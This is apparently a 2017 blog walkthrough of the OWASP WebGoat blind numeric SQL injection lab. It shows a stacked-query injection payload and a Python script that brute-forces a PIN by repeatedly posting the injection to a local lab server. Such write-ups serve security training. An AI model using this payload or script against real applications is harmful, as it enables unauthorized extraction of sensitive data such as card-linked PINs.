 ```yaml
---
layout: post
title:  "OWASP BWA WebGoat Challenge: Injection Flaws"
subtitle: "Blind SQL Injection (Numeric)"
date:   2017-01-30 06:00:00 -0500
author: "coastal"
header-img: "images/site-resources/webgoat-header.jpg"
---
```

# Blind Numeric SQL Injection
Instructions:

- The form below allows a user to enter an account number and determine if it is valid or not. Use this form to develop a true / false test check other entries in the database.
- The goal is to find the value of the field pin in table pins for the row with the cc_number of 1111222233334444. The field is of type int, which is an integer.
- Put the discovered pin value in the form to pass the lesson.

First thing to do is throw some test input at the application and see what we get back:

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/blind-canary-alive.jpg">

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/blind-canary-dead.jpg">

Alright, so we have some feedback for true and false values in our database. This is actually all we need to create a Blind SQL Injection attack. Our next step is to craft iterative requests to probe the database and find the user that has our desired criteria. We will be able to tell when we found our user when we receive a positive hit (output that looks like our first test).

First thing to do is craft the SQL statement that we will be sending to the server. Our initial request looked like this:

```
account_number=101&SUBMIT=Go%21
```

We need to build a SQL injection on top of this that will return true when we find the pin associated with the credit card number ```1111222233334444``` in the ```pins``` table. I came up with something that looked like this:

```
select * from pins where cc_number = 1111222233334444 and pin = xxx
```

Then we write out our full statement to bruteforce:

```
101;select * from pins where cc_number = 1111222233334444 and pin = xxx--
```

Alright, so we have our payload template for our bruteforce. Now we could use BurpSuite's Intruder tool to perform this bruteforce. Unfortunately the free version has a heavy rate-limit built into it between requests. So, why don't we repurpose our brute-forcing script from before for cracking the ```Forgot Password``` challenge into a Blind SQL injection tool? Here's what it looks like (remembering to update our session cookie):

{% highlight python %}
import sys
import requests

def main():

	headers = {
		"user-agent":"Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:50.0) Gecko/20100101 Firefox/50.0"
	}
	cookies = dict(JSESSIONID="9807FE50B02B2B1D50B8113FFB60D0DC",acopendivids="swingset,jotto,phpbb2,redmine",acgroupswithpersist="nada")

	for x in range(0, 10000):
		pin = str(x).zfill(4)
		print ("[*] Attempting PIN: {}".format(pin))
		pin_request = '101;select * from pins where cc_number = 1111222233334444 and pin = {}--'.format(pin)
		payload= {"account_number":pin_request,"SUBMIT":"Go%21"}
		r = requests.post("http://192.168.56.101/WebGoat/attack?Screen=4&menu=1100", params=payload, headers=headers, cookies=cookies)
		if r.status_code == 200:
			if "account number is valid" in r.text.lower():
				print ("[+] SUCCESS! PIN is: {}".format(pin))
				sys.exit(0)
		else:
			print ("error: {}".format(r.text))
			sys.exit(1)

main()
{% endhighlight %}

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/pin-success.jpg">

And when we enter that PIN into the form:

<img src="{{ site.baseurl }}/images/2017-01-30-webgoat_part_14/pin-defeated.jpg">

Brute-force to the rescue!